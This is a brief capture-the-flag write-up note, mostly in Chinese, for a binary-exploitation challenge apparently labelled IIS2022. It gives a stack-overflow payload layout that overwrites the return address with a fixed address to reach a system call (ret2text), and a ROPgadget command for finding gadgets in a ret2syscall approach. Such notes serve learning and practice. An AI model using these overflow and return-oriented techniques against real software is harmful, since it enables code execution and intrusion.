 # IIS2022
# Method 1 ret2text
反编译得到overflow函数中copy字符串距离ebp的长度为0x30
输入'a' * 0x30 + 'b' * 0x08 + 0x000000000040121E 填充
将返回地址修改为 system 指令所在地址

# Method 2 ret2syscall
https://www.dazhuanlan.com/zhjnlb/topics/1242953
ROPgadget --binary ret2syscall --only "pop|ret" | grep "rax"